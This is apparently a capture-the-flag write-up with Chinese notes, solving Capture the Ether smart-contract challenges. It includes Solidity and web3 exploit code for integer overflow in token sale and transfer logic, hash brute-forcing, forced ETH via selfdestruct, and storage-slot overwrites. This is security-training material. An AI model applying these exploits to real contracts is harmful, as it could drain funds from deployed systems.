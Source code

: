 ## Deploy a contract
![image](https://user-images.githubusercontent.com/118118760/223460455-645af028-aac9-4c26-8a1b-816c65241bda.png)
成功部署合约
## Call me
> (web3.utils.asciiToHex('RIPWU')).padEnd(64, '0')
'0x52495057550000000000000000000000000000000000000000000000000000'
## Guess the secret number
uint8取值空间极小[0,255],遍历查找
pragma solidity ^0.4.21;

contract ExploitGuessTheSecretNumberChallenge {
    bytes32 answerHash = 0xdb81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365;

    function guess() public view returns (uint256) {
        for (uint8 n = 0; n < 255; n++) {
            if (keccak256(n) == answerHash) {
                return n;
            }
        }

        return 256;
    }
}
## Token sale
buy() 函数中的乘法存在溢出

async function main() {
    const targetAddress = '0x546a782986933ff853248E865cC0AFd9fb93a721';
    const targetABI = require('../build/contracts/TokenSaleChallenge.json').abi;
    const targetContract = new web3.eth.Contract(targetABI, targetAddress);

    //
    const Max = web3.utils.toBN("0x10000000000000000000000000000000000000000000000000000000000000000");
    const Ether = web3.utils.toBN(web3.utils.toWei('1'));
    const Zero = web3.utils.toBN('0');
    const One = web3.utils.toBN('1');

    const divmod = Max.divmod(Ether);

    //
    var numTokens = divmod.div.add(One);
    const value = numTokens.mul(Ether).sub(Max);

    await targetContract.methods.buy(numTokens).send({value});
    await targetContract.methods.sell(One).send();
}
## Token Whale
transferFrom() 检查的是外部传入的 from 的余额，而实际扣款扣的是 msg.sender，存在溢出

pragma solidity ^0.4.21;

import "./TokenWhaleChallenge.sol";

contract ExploitTokenWhaleChallenge {
    TokenWhaleChallenge public target = TokenWhaleChallenge(0x4E12fAB3CF4aF2E96863c26c0949CEE97b092350);
    address public owner;

    function ExploitTokenWhaleChallenge() public {
        owner = msg.sender;
        require(target.balanceOf(owner) == target.totalSupply());
    }

    function attack() public {
        address self = address(this);
        uint256 allowance = target.allowance(owner, self);
        require(allowance > 0);

        target.transferFrom(owner, owner, allowance);
        target.transfer(owner, 1000000);
        require(target.isComplete() == true);
    }
}
## Retirement fund
collectPenalty() 中的减法操作存在溢出，问题是合约没有显式的 payable receive() 或 payable fallback()
参考 Ethernaut #7 Force，通过 SELEDESTRUCT 强制发送 ETH 即可
## Mapping
类似 Ethernaut #19 Alien Codex，也是覆盖漏洞
> console.log('0x' + (2n ** 256n - BigInt(web3.utils.keccak256('0x' + '1'.padStart(64, '0')))).toString(16))
0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
## Donation
donate() 中 donation 定义时未指定引用，默认指向 slot0
对 donation 的修改会覆盖 slot0 和 slot1，即 donations.length 和 owner
